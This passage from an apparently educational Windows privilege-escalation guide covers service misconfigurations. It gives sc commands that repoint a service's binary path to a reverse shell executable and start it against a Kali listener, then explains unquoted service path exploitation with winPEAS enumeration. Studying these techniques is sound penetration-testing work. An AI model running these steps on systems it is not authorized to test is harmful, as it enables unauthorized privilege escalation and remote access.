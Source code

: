     ```
    > sc qc <service_name>
    ```
3.  Check the current status of the service:

    ```
    > sc query <service_name>
    ```
4.  Reconfigure the service binary path to use our reverse shell executable:

    ```
    > sc config <service_name> binpath= "\"C:\Users\Public\reverse.exe\""
    ```
5.  Start a listener on Kali, and then start the service to trigger the exploit:

    ```
    > net start <service_name>
    ```

### Unquoted Service Path

If the path to the service binary is not wrapped in quotes and there are spaces in the path. This stems from the way Windows handles `CreateProcess` API calls:

> If you are using a long file name that contains a space, use quoted strings to indicate where the file name ends and the arguments begin; otherwise, the file name is ambiguous. For example, consider the string "c:\program files\sub dir\program name". This string can be interpreted in a number of ways. The system tries to interpret the possibilities in the following order:
>
> **c:\program.exe**&#x20;
>
> **c:\program files\sub.exe**&#x20;
>
> **c:\program files\sub dir\program.exe**
>
> **c:\program files\sub dir\program name.exe...**

More information here:

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createprocessa" %}

{% embed url="https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae" %}

#### Unquoted Service Path Privilege Escalation

1.  To check for service misconfigurations, run winPEAS:

    ```
    > .\winPEASany.exe quiet servicesinfo
    ```
2.  Note an unquoted path that also contains spaces:

    ```
    C:\Program Files\Unquoted Path Service\Common Files\service_name.exe
    ```
3.  Perform a query to the service with sc to confirm this:
